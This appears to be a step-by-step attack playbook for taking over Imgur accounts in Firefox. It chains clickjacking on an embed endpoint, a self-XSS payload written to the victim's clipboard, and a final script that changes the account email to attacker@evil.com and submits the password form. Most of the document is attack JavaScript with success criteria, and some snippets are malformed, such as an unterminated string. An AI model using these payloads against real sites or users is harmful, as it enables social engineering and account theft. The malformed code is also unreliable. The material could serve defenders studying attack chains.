

# Chained ClickJacking and DOM-based Self-XSS for Imgur Account Takeover in Firefox

Multi-stage attack chain demonstrating a complete attack workflow exploiting vulnerabilities on Imgur.com.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 6 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/firefox-browser]]
- [[tools/navigator-clipboard-api]]

### Target Environment

- Web platform targeting Imgur.com
- Services: Imgur embed and beta image upload
- Tech stack: JavaScript, HTML
- No specific ports required (HTTPS/80,443)

### Initial Access Requirements

- Victim must use Firefox (v75.0 or similar) with saved Imgur passwords
- User must grant clipboard permission
- Attacker hosts a malicious page with iframe
- Network access: Victim visits attacker's page

## Detailed Attack Procedures

### Step 1: Initial Access
procedure: [[procedures/setup-clickjacking-iframe-for-imgur-embed]]

**Objective**: Frame the Imgur embed page to initiate clickjacking without X-Frame-Options blocking.

**Instructions**: Host a malicious HTML page that loads an iframe sourcing the vulnerable Imgur embed endpoint. Use JavaScript to overlay invisible elements for user interaction tricking.

```javascript
// Example setup in malicious page
let ifr = document.createElement('iframe');
ifr.src = 'http://imgur.com/a/lz8DAkB/embed/embed?pub=true&ref=http%3A%2F%2Flocalhost%2Fembed.html&w=540';
ifr.onload = function() { console.log('Iframe loaded'); };
document.body.appendChild(ifr);
```

**Expected Output**: Iframe loads Imgur embed without framing restrictions.

**Success Indicators**:
- Iframe content visible in developer tools
- No X-Frame-Options error in console

### Step 2: Detection
procedure: [[procedures/monitor-iframe-frames-to-detect-upload-page]]

**Objective**: Detect when the victim navigates to the beta upload page by monitoring frame count.

**Instructions**: Use a JavaScript interval to check the number of frames in the iframe. Trigger UI changes when frames.length == 1 (indicating upload page).

```javascript
let x = 0;
setInterval(function() {
  if (ifr.contentWindow.frames.length == 1) {
    console.log('Upload page detected!');
    btn1.innerHTML = 'drag the image to here!';
    x = 1;
  }
}, 1000);
```

**Expected Output**: Console log "Upload page detected!" and UI update.

**Success Indicators**:
- Frame count logs show change to 1
- UI prompts for next interaction appear

### Step 3: Interaction
procedure: [[procedures/trick-user-into-dragging-image-via-ui-manipulation]]

**Objective**: Trick the victim into dragging an image to the upload area via overlaid UI elements.

**Instructions**: Set up drag-and-drop handlers on the page to detect the dragend event and sequence prompts for copying text.

```javascript
ondragend = function() {
  btn1.innerHTML = '';
  setTimeout(function() {
    btn2.innerHTML = 'copy the red text and paste here after that, press enter!';
  }, 1100);
};
```

**Expected Output**: UI updates to prompt clipboard copy after drag.

**Success Indicators**:
- Drag event fires
- Next prompt appears after 1.1 seconds

### Step 4: Payload Delivery
procedure: [[procedures/copy-malicious-payload-to-clipboard]]

**Objective**: Repeatedly write the self-XSS payload to the victim's clipboard, requiring permission grant.

**Instructions**: Use the navigator.clipboard API in an interval to write the payload. Victim must allow the permission prompt.

```javascript
setInterval(function() {
  navigator.clipboard.writeText('<<!<script>iframe src=javajavascriptscript:alert(document.domain)>');
}, 1000);
```

**Expected Output**: Clipboard contains payload; console logs successful write.

**Success Indicators**:
- Permission granted
- Payload verifiable in clipboard

### Step 5: Execution
procedure: [[procedures/trigger-dom-based-self-xss-via-paste]]

**Objective**: Trick victim into pasting the payload into the upload input, triggering DOM-based XSS in Firefox.

**Instructions**: The payload is pasted into the upload field (e.g., value='https://images.pexels.com/photos/1108099/pexels-photo-1108099.jpeg?<<iframe/src=javascript:self.innerHTML=parent.name>img/src=x>'), then submit via enter or click.

```javascript
// Payload example for paste
document.querySelector('input[type="url"]').value = 'https://images.pexels.com/photos/1108099/pexels-photo-1108099.jpeg?<<iframe/src=javascript:self.innerHTML=parent.name>img/src=x>';
// User presses enter or clicks submit
```

**Expected Output**: JavaScript executes, alerting domain or manipulating DOM.

**Success Indicators**:
- Alert pops up with document.domain
- DOM elements altered (e.g., innerHTML change)

### Step 6: Impact
procedure: [[procedures/perform-account-takeover-via-password-form-manipulation]]

**Objective**: Use XSS to open password settings, extract saved form data, modify email, and submit for takeover.

**Instructions**: From XSS context, open settings page in new window, extract form inputs, alter email, and POST.

```javascript
window.open('https://imgur.com/account/settings/password', '_blank');
// Then in new window context:
let forms = document.getElementsByTagName('form')[5];
let inputs = forms.getElementsByTagName('input');
let body = '';
for(let i = 0; i < inputs.length; i++) {
  if(inputs[i].name == 'email') { inputs[i].value = 'attacker@evil.com'; }
  body += inputs[i].name + '=' + inputs[i].value + '&';
}
body += '_jafo[activeExperiments]=[]&_jafo[experimentData]={};
fetch('https://imgur.com/account/settings/password', {
  method: 'POST',
  credentials: 'include',
  headers: { 'Content-Type': 'application/x-www-form-urlencoded' },
  body: body
});
```

**Expected Output**: Server accepts POST, email changed to attacker's.

**Success Indicators**:
- New window opens to settings
- POST response indicates success (e.g., 200 OK)
- Attacker gains access via new email

## Attack Chain Summary

### Key Achievements

1. Bypassed framing protections via ClickJacking on embed endpoints
2. Chained social engineering to deliver self-XSS payload via clipboard
3. Achieved full account takeover by exploiting saved passwords in Firefox

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Steal Web Session Cookie]] Drive-By Compromise (ClickJacking)
- [[JavaScript]] JavaScript (XSS Execution)
- [[Credentials from Web Browsers]] Credentials from Web Browsers (Saved Passwords)
- [[Account Manipulation]] Account Manipulation (Password/Email Change)

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access
- [[Execution]] Execution
- [[Credential Access]] Credential Access
- [[Privilege Escalation]] Impact

---

*Last updated: 2023-10-01T00:00:00Z*
